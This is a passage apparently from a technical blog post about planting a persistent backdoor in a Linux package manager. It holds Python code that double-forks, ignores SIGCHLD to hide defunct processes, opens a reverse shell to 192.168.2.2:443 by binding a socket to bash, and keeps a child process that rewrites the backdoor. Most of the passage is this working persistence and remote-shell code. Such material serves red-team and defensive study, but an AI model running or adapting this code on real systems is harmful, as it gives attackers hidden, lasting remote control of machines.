 Finally, we probably want our backdoor to actually do something. We could have it overwrite a legitimate binary with one that we download or store somewhere else, or persist a fully-featured backdoor in some other script. We can essentially modify anything that is package-managed now without fear of losing our modifications. To demonstrate that it works, we'll just add a few lines that spawn a shell connection to a remote server. We can do this in multiple places in the code, including the first forked process/second parent before it exits. One caveat is to avoid zombie processes (showing up as "defunct" or similar in the process list) we want to ignore SIGCHLD in our second parent process before spawning a shell. Doing this in the first parent may sometimes break things in the package manager if it calls waitpid() elsewhere, so it's best to only do it in our own spawned process.

{% highlight python %}
def connect():
    r = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    r.connect(('192.168.2.2',443))
    os.dup2(r.fileno(),0)
    os.dup2(r.fileno(),1)
    os.dup2(r.fileno(),2)
    pty.spawn('/bin/bash')
    r.close()

# snip

def bad():
    if timeToKill():
        remove()
        return
    try:
        pid = os.fork()
        imp.acquire_lock()
        if pid > 0:
            return
    except Exception as e:
        return
    try:
        os.setsid()
        pid2 = os.fork()
        imp.acquire_lock()
        if pid2 > 0:
            # avoid zombies
            signal.signal(signal.SIGCHLD, signal.SIG_IGN)
            # execute a shell here, then exit
            connect()
            sys.exit(0)
        # second child persists
        writeBad()
    except Exception as e:
        sys.exit(1)

bad()
{% endhighlight %}
